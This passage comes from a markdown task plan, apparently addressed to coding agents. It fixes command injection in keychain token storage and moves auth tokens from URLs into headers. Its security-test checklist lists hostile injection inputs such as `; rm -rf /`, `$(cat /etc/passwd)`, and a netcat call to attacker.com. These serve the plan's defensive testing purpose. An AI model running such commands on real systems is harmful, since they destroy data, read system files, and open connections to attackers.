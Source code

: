 **Example implementation:**
```typescript
// Validation
const SAFE_SERVER_ID_REGEX = /^[a-zA-Z0-9._-]+$/;
if (!SAFE_SERVER_ID_REGEX.test(serverId)) {
  throw new Error('Invalid serverId: contains unsafe characters');
}

// Safe command execution
import { execFile } from 'child_process';
execFile('security', ['add-generic-password', '-a', serverId, '-s', 'mcp-oauth', '-w', token], callback);
```

**Security tests to add:**
- [ ] Test with malicious inputs: `; rm -rf /`, `$(cat /etc/passwd)`, `|nc attacker.com 1234`
- [ ] Test with special characters: `'`, `"`, `` ` ``, `$`, `&`, `|`, `;`, `\n`
- [ ] Verify no shell interpretation occurs
- [ ] Test valid serverIds still work

**DO NOT** proceed to next task until:
- [ ] `yarn validate packages/mcp` passes WITHOUT ANY ERRORS OR ISSUES
- [ ] `yarn test packages/mcp` passes WITHOUT ANY ERRORS OR ISSUES
- [ ] Security tests confirm no command injection possible
- [ ] You did a thorough review of all code changes using code-reasoning tool
- [ ] All files modified by this task have been committed

### Task 2: Fix Auth Token Leakage in URLs ✅
**Priority: 🔴 CRITICAL - Security Vulnerability**
**Size: Medium (3-4 hours)**
**Status: COMPLETED - Commit: 0e116ab**

**BEFORE** starting this task:
- You **MUST** tick the checklist boxes for previous task
- You **MUST** verify eventsource package supports headers in Node.js
- You **MUST** understand current token passing mechanism
- You **MUST** ensure no other worker is modifying SSE transport

**Files to modify:**
- `packages/mcp/src/transports/implementations/sse-client-transport.ts`

**Implementation requirements:**
- [ ] Remove all token parameters from URLs
- [ ] Pass tokens via Authorization headers
- [ ] Update EventSource initialization to use headers
- [ ] Remove the incorrect "browser limitation" comment
- [ ] Ensure headers work with eventsource package v4.0.0

**Example implementation:**
```typescript
const eventSourceInit = {
  headers: {
    'Authorization': `Bearer ${token}`,
    'Content-Type': 'text/event-stream'
  }
};
const eventSource = new EventSource(url, eventSourceInit);
```

